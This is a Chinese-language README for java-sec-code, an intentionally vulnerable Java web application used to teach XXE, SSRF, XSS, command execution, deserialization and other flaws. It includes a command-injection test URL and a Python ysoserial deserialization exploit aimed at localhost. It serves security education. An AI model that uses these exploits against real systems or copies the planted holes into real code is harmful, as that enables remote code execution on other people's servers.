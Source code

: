 # Java Security Code

## 介绍

该项目也可以叫做Java Vulnerability Code(Java漏洞代码)。

每个漏洞类型代码默认存在安全漏洞（除非本身不存在漏洞），相关修复代码在注释里。具体可查看每个漏洞代码和注释。

## 漏洞代码

- [XXE](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XXE.java)
- [SSRF](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/SSRF.java)
- [URL重定向](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/URLRedirect.java)
- [IP伪造](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/IPForge.java)
- [XSS](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/XSS.java)
- [CRLF注入](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/CRLFInjection.java)
- [远程命令执行](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Rce.java)
- [反序列化](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/Deserialize.java)
- [文件上传](https://github.com/JoyChou93/java-sec-code/blob/master/src/main/java/org/joychou/controller/FileUpload.java)

## 如何运行


### Tomcat

1. 生成war包 `mvn clean package`
2. 将target目录的war包，cp到Tomcat的webapps目录
3. 重启Tomcat应用


```
http://localhost:8080/java-sec-code-1.0.0/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```

### IDEA

如果想在IDEA中直接运行，需要在IDEA中添加Tomcat配置，步骤如下：

```
Run -> Edit Configurations -> 添加TomcatServer(Local) -> Server中配置Tomcat路径 -> Deployment中添加Artifact选择java-sec-code:war exploded
```

![tomcat](https://github.com/JoyChou93/java-sec-code/raw/master/idea-tomcat.png)

配置完成后，右上角直接点击run，即可运行。

```
http://localhost:8080/rce/exec?cmd=whoami
```
 
返回

``` 
Viarus
```


## SSRF

针对SSRF具体利用，可以阅读我写的[这篇博文](https://joychou.org/java/javassrf.html)。

## 反序列化

打包ysoserial

``` 
git clone https://github.com/frohoff/ysoserial.git
mvn clean package -DskipTests
```

执行exp

```python
#coding: utf-8
#author: JoyChou
#date:   2018.07.17

import requests
import subprocess

def poc(url , gadget, command):
	ys_filepath = '/Users/Viarus/Downloads/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
	popen = subprocess.Popen(['java', '-jar', ys_filepath, gadget, command], stdout=subprocess.PIPE)
	payload = popen.stdout.read()
	r = requests.post(url, data=payload, timeout=5)

if __name__ == '__main__':
	poc('http://127.0.0.1:8080/deserialize/test', 'CommonsCollections5', 'open -a Calculator')
```

## 文件上传

目前这类漏洞在spring里非常少，原因有两点：
1. 大多数公司上传的文件都会到cdn
2. spring的jsp文件必须在web-inf目录下才能执行

除非，可以上传war包到tomcat的webapps目录。所以就不YY写漏洞了。

访问`http://localhost:8080/file/`进行文件上传，上传成功后，再访问`http://localhost:8080/image/上传的文件名`可访问上传后的文件。

